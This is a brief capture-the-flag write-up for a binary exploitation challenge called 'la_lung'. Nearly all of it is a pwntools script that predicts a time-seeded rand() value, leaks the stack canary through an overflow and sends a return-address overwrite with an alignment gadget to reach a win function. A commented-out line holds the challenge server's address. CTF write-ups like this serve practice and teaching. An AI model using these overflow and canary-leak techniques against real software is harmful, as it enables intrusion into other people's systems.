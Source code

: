 # Challenge: la_lung
## Description

> I forgot the description :)) but it's roughly "If you solved it locally but failed remotely, try again"

## Source
> la_lung
## Solution
Note: **srand(time(0))** and **Stack Alignment**
```

#!/usr/bin/python3
import math
from ctypes import CDLL
from pwn import *

context.binary = elf = ELF('./la_lung', checksec=False)
libc = CDLL('libc.so.6')

p = process(elf.path)
# p = remote('167.172.3.35', 50010)

now = int(math.floor(time.time()))
libc.srand(now)

p.sendlineafter(b'name: ', b'a'*72)
canary = p.recvline().split(b' ')[-1][64:72]
canary = b'\x00' + canary[1:]
print(canary)
print(p64(u64(canary))) 

p.sendlineafter(b'Door\n', str(libc.rand()).encode())

address = p.recvline().split(b' ')[-1].strip()

address_win = int(address, 16)
gadget = address_win - (0x12a9-0x101a)
print(hex(address_win))

address = p64(int(address, 16))
print(address)

print(p.recvline())

p.sendline(b'A' * 88 + canary+ p64(0x1)+p64(gadget) + address)
p.interactive()
```
